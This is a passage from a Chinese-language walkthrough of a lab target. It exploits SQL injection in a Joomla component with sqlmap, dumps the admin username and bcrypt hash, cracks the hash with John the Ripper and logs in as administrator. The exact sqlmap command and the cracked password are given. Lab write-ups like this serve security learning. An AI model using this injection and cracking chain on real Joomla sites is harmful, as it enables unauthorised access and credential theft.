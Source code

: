 #### 5.获取目标字段username和password

```
sqlmap -u "http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables -T "#__users" --columns -C "username,password" --dump

```

<img src="https://img-blog.csdnimg.cn/ccc684966fa44a028f7e8bb9f36e2aae.png" alt="在这里插入图片描述">

>  
 获得结果如下 拿到一个用户名和加密的密码 


```
Database: joomladb
Table: #__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+----------+--------------------------------------------------------------+

```

<img src="https://img-blog.csdnimg.cn/d656835def8047b1ae26c2dc9384d67e.png" alt="在这里插入图片描述">

### 9.利用john爆破密码snoopy

>  
 使用john破解出admin密码，john the ripper是一款本地密码破解工具，可以从我们上面生成的shadow文件（密码散列）中破解出密码。破解时间取决于密码的复杂程度以及破解模式。 创建一个admin_pass.txt，把加密的密码字段写入 


<img src="https://img-blog.csdnimg.cn/44b5e6a5fe214d64810646d8336b8213.png" alt="在这里插入图片描述">

>  
 使用john破解出admin密码是snoopy 


```
john admin_pass.txt

```

<img src="https://img-blog.csdnimg.cn/5308d19b157e41e2b4b1b2f9199c5ed8.png" alt="在这里插入图片描述">

### 10.利用获取到的账号密码进行登录

```
http://192.168.233.179/administrator/
admin/snoopy

```
